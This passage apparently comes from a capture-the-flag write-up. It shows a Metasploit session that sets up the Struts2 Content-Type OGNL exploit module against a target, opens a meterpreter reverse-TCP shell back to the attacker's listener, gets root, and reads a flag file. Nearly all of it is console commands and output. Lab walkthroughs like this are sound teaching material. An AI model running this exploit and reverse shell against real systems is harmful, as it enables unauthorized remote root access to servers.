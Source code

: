 
msf5 > use exploit/multi/http/struts2_content_type_ognl
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/http/struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

Name       Current Setting     Required  Description
----       ---------------     --------  -----------
Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      8080                yes       The target port (TCP)
SSL        false               no        Negotiate SSL/TLS for outgoing connections
TARGETURI  /struts2-showcase/  yes       The path to a struts application action
VHOST                          no        HTTP server virtual host

Payload options (linux/x64/meterpreter/reverse_tcp):

Name   Current Setting  Required  Description
----   ---------------  --------  -----------
LHOST  <local-ip>     yes       The listen address (an interface may be specified)
LPORT  4444             yes       The listen port

Exploit target:

Id  Name
--  ----
0   Universal

msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOSTS <ip>
RHOSTS => <ip>
msf5 exploit(multi/http/struts2_content_type_ognl) > set TARGETURI /showcase.action
TARGETURI => /showcase.action
msf5 exploit(multi/http/struts2_content_type_ognl) > set RPORT 80
RPORT => 80{% endraw %}{% endcapture %} {% include code.html code=code%}

Exploiting with the set options will gain a `shell`, where `flag` can be retrieved.
{% capture code %}{% raw %}msf5 exploit(multi/http/struts2_content_type_ognl) > exploit

[*] Started reverse TCP handler on <local-ip>:4444
[*] Sending stage (3012516 bytes) to <ip>
[*] Meterpreter session 1 opened (<local-ip>:4444 -> <ip>:57606) at 2021-01-23 13:39:13 +0000

meterpreter > shell
Process 58 created.
Channel 1 created.
script -qc /bin/bash /dev/null

root@<hostname>:/usr/local/tomcat# find / -type f -iname *flag.txt*
find / -type f -iname *flag*
<flag-file>

root@<hostname>:/usr/local/tomcat# cat <flag-file>
cat <flag-file>
    <flag>{% endraw %}{% endcapture %} {% include code.html code=code%}
